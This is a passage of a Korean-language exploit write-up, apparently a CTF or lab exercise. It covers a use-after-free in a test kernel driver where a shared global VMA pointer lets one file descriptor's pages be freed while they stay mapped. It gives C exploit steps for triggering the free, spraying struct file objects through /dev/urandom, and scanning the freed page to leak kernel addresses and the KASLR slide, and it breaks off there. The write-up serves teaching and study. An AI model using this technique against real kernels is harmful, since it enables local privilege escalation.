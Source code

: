 - 특정 조건(size > 0x700)을 만족하면 매핑된 페이지를 해제하고 `backing_vma`를 초기화합니다.
- 이때 전역 변수 관리 미흡으로 인해 **다른 fd의 VMA**를 해제하게 되는 상황이 발생할 수 있습니다. 이 경우, 호출한 fd의 매핑은 UAF 상태로 남게 됩니다.
    - fd → fd2 순으로 open하고 fd를 해제하면 전역변수 backing_vma에는 fd2의 VMA가 저장된 상태이므로 fd의 VMA가 아닌 fd2의 VMA가 해제됨.
    - 따라서 fd의 VMA를 통해 fd의 해제된 page에 접근 가능함.

결과적으로, 두 fd 사이의 **전역 변수 공유**로 인해 **Use-After-Free 취약점**이 유발됩니다.

## **📌** 공격 시나리오

각 단계는 exploit.c 코드와 함께 구체적인 설명을 포함하고 있습니다.

1. `/dev/test` 디바이스를 두 번 열고 각각 매핑(mmap)을 수행합니다.
    
    ```c
    int fd = open("/dev/test", O_RDWR);
    int fd2 = open("/dev/test", O_RDWR);
    
    unsigned char *a = mmap(0, 0x3000, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_SHARED, fd, 0);
    mmap(0, 0x3000, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_SHARED, fd2, 0);
    ```
    
    - 두 개의 파일 디스크립터 `fd`, `fd2`를 열어 각기 다른 커널 컨텍스트를 할당받습니다.
    - 각각 `mmap`을 호출하면 내부적으로 `my_mmap()`이 호출되어 전역 변수 `backing_vma`가 갱신되며, 결국 fd2 호출로 덮어씌워지게 됩니다.
        - backing_vma는 fd2의 VMA를 가짐.
2. `write`를 통해 fd의 페이지를 해제하면 fd2의 VMA가 해제됩니다.
    
    ```c
    memset(a, 0x0, 0x3000);
    memset(a + 0x1000, 0xcc, 0x1000);
    write(fd, "a", 1);
    ```
    
    - `my_write()`에서는 0x700 바이트 초과 입력 시 페이지를 해제하고 `zap_vma_ptes()`를 호출합니다.
    - 하지만 `backing_vma`는 `fd2`에 해당하는 VMA를 가리키고 있으므로 `fd2`의 매핑이 정리됩니다.
    - 반면, `fd`는 실제로 페이지가 해제되었지만 여전히 mmap 영역으로 접근 가능해 UAF가 발생합니다.
3. fd의 mmap된 메모리는 여전히 접근 가능하지만, 실제 페이지는 free된 상태입니다.
    - 이 상태에서 페이지가 커널에 의해 재사용되면 해당 영역을 유저 공간에서 읽고 쓸 수 있게 됩니다.
4. 이 상태에서 커널 객체(예: `struct file`)를 스프레이하여 free된 페이지에 재할당받습니다.
    
    ```c
    int fds[0x100];
    for (int i = 0; i < 0x100; i++)
        fds[i] = open("/dev/urandom", O_RDONLY);
    ```
    
    - `/dev/urandom` 파일을 다수 열어 해제된 페이지가 `struct file` 구조체를 할당하도록 유도합니다.
    - 페이지 재사용으로 인해 방금 해제된 영역에 `file` 구조체가 들어갈 가능성이 높아집니다.
5. 유저 공간에서는 이를 통해 커널 객체를 읽고 쓰며 커널 주소를 누수하고 함수 포인터를 덮어씁니다.
    
    ```c
    unsigned long *ax = (unsigned long *)a;
    unsigned long file_base = 0, kernel_slide = 0;
    unsigned long *file_ax = 0;
    for (int i = 0; i < 0x3000; i += 0x1000) {
        if ((ax[(i + 0x30) >> 3] & 0xfff) == 0x30 &&
            (ax[(i + 0xb0) >> 3] & 0xfffff) == 0x91700) {
            file_base = ax[(i + 0x30) >> 3] - 0x30;
            file_ax = &ax[i >> 3];
            kernel_slide = ax[(i + 0xb0) >> 3] - 0x2291700L;
            break;
        }
    }
    ```
    